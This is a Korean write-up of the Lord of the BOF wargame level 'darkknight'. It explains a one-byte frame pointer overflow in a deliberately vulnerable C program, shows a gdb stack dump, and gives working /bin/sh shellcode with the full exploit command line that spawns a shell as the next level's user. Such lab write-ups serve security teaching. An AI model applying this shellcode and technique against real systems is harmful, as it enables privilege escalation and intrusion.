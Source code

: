 ```yaml
---
title: "[LOB]Level12. darkknight"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[SFP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

-----

### 0x01. Analysis

problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.

```sh
(gdb) x/32x $ebp-40
0xbffffaf0:	0xbffffb18	0x4000a970	0x400f855b	0x08049530
0xbffffb00:	0x4000ae60	0xbffffb64	0xbffffb18	0x0804842b
0xbffffb10:	0x0804951c	0x08049530	0xbffffb38	0x400309cb
0xbffffb20:	0x00000001	0xbffffb64	0xbffffb6c	0x40013868
0xbffffb30:	0x00000001	0x08048390	0x00000000	0x080483b1
0xbffffb40:	0x0804846c	0x00000001	0xbffffb64	0x080482e4
0xbffffb50:	0x080484dc	0x4000ae60	0xbffffb5c	0x40013e90
0xbffffb60:	0x00000001	0xbffffc61	0x00000000	0xbffffc7a
```

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```sh
[golem@localhost golem]$ ./darkknight `python -c 'print "\x90"*16+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\xf0"'`
����������������1�Ph//shh/bin��PS�ᙰ
                                    ̀�����M�������	@
bash$ my-pass
euid = 512
new attacker
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

sfp의 끝주소를 '\xf0'으로 변경시키고, NOP와 쉘코드를 넣어준다.

> 만약 ebp-40에 바로 쉘코드를 넣었다면 **\xf0 - 4 한 값**을 넣어야 한다. 

-----



